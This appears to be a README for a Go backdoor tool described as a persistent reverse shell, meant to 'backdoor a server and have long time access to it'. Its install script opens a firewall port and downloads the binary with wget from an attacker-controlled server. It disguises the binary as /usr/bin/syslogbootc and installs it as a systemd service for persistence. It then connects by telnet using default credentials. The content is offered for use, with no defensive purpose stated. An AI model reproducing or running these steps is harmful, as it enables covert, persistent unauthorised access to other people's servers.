 <h2>Golang Persistent Reverse Shell</h2>

<h3>Coded by T13R</h3>

<h4>This is made to backdoor a server and have long time access to it</h4>


<h1>Installation:</h1>

```sh
apt install snap snapd -y
snap install go --classic
```

<h1>Setup:</h1>

```sh
go build -o shell shell.go
```

<h3>Installing shell on infected device</h3><br>

```sh
iptables -A INPUT -p tcp --dport 9999 -j ACCEPT
iptables-save > /etc/iptables/rules.v4

url="http://YOUR_SERVER_IP/shell"

filename="/usr/bin/syslogbootc"
wget -O "$filename" "$url"
chmod +x "$filename"
service="[Unit]
Description=syslogbootc
After=network.target

[Service]
ExecStart=$filename -L /bin/bash

[Install]
WantedBy=multi-user.target"
rm -rf /etc/systemd/system/syslogbootc.service
echo "$service" > /etc/systemd/system/syslogbootc.service
systemctl enable --now syslogbootc.service
systemctl restart syslogbootc.service
```

<h3>Connect on your reverse shell</h3><br>

```sh
telnet INFECTED_SERVER_IP 9999
```

<h3>Change the login information on shell.go</h3><br>

```go
const (
	host       = "0.0.0.0"
	port       = "9999"
	username   = "admin"
	password   = "password"
	prompt     = "backdoor> "
	exitPrompt = "exit"
)
```

## Make sure you use a safe password for the reverse shell
